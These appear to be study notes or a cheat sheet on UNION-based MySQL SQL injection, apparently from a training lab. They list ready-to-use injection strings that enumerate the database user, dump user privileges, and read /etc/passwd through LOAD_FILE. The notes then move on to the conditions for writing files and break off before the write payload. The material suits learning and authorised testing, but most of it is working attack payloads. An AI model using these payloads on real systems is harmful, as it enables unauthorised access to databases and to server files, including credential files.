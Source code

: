 We need to know if our user has the privileges to read files.
### DB User
```sql
# Target SQL Queries
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

# Injection Queries
cn' UNION SELECT 1, user(),3, 4-- 
cn' UNION SELECT 1, USER, 3, 4-- 
```
### Privileges
```sql
# Target SQL Queries
SELECT super_priv from mysql.user

# Injection Queries
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- # Find priv's of other user or our user
# if multiple users exist in the db
# Query will respond with "y" or "n". "y"= super_priv
```
```sql
# Dump all privileges for all users
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 
# Dump all privileges for specific user
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- 
# Here we are looking for the "File" Privilege
```
### Load_File
```sql
# Example Direct SQL Statement
SELECT LOAD_FILE('/etc/passwd');
```
```sql
# Example Injection Statement
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
## Writing Files  
3 Requirements:
1. File Privilige
2. MySQL global secure_file_prive variable not enabled
3. Write access to the location we want to write to on the server

**secure_file_priv**  
NULL = No access to anything  
Path = can only read/write to/from that folder  
Blank = read/write entire file system  
```sql
# Example Direct Query
SHOW VARIABLES LIKE 'secure_file_priv';
```
variables are stored within INFORMATION_SCHEMA.global_variables w/ 2 columns - variable_name & variable_value
```sql
# noting the above, our final sql query should look something like this
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
# and our injectable statement, should look something like this
```